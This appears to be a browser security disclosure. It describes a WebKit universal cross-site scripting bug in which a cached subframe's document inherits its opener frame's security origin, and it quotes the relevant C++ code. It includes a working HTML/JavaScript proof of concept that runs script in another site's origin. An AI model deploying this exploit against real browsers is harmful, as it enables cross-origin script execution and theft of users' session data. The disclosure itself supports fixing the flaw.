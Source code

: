 # UXSS: CachedFrame doesn't detach openers

When a document loads "about:blank" or "about:srcdoc", it tries to inherit the security origin from its parent frame, or its opener frame if the parent frame doesn't exist. Normally, it doesn't happen that a subframe's document inherits its opener frame's security origin, because it has the parent frame. And it shouldn't happen at all. However, when the subframe is cached, only the parent frame is detached but not the opener frame. So, inheriting the opener frame's security origin could happen in that case.

```cpp
void Document::initSecurityContext()
{
   ...
   if (!shouldInheritSecurityOriginFromOwner(m_url)) <<----- check m_url is about:blank or about:srcdoc.
       return;

   // If we do not obtain a meaningful origin from the URL, then we try to
   // find one via the frame hierarchy.
   Frame* parentFrame = m_frame->tree().parent();
   Frame* openerFrame = m_frame->loader().opener();

   Frame* ownerFrame = parentFrame;
   if (!ownerFrame)
       ownerFrame = openerFrame;

   if (!ownerFrame) {
       didFailToInitializeSecurityOrigin();
       return;
   }

   ...
   setCookieURL(ownerFrame->document()->cookieURL());
   // We alias the SecurityOrigins to match Firefox, see Bug 15313
   // <a href="https://bugs.webkit.org/show_bug.cgi?id=15313" title="" class="" rel="nofollow">https://bugs.webkit.org/show_bug.cgi?id=15313</a>
   setSecurityOriginPolicy(ownerFrame->document()->securityOriginPolicy());
   ...
}
```

PoC:

```html
<body>
Click anywhere.
<script>

window.onclick = () => {
   window.onclick = null;

   let w = open('about:blank', '', 'width=500, height=500');
   w.eval(`
let f = document.body.appendChild(document.createElement('iframe'));
f.contentWindow.name = 'zzz';
opener.open('about:blank', 'zzz');

function navigate(w, url, cb = null) {
   w.__check = true;

   let a = w.document.createElement('a');
   a.href = url;
   a.click();

   if (!cb)
       return;

   let it = setInterval(() => {
       let navigated = false;
       try {
           if (!w.__check)
               navigated = true;
       } catch (e) {
           navigated = true;
       }

       if (navigated) {
           clearInterval(it);
           cb();
       }
   }, 10);
}

navigate(opener, '<a href="https://abc.xyz/" title="" class="" rel="nofollow">https://abc.xyz/</a>', () => {
   f.srcdoc = '<script>opener.alert(opener.location);</scrip' + 't>';
   f.contentWindow.onbeforeunload = () => {
       f.contentWindow.onbeforeunload = null;

       navigate(window, 'about:blank');
   };

   navigate(f.contentWindow, 'about:srcdoc');
});`);
}

</script>
</body>
```


Found by: lokihardt
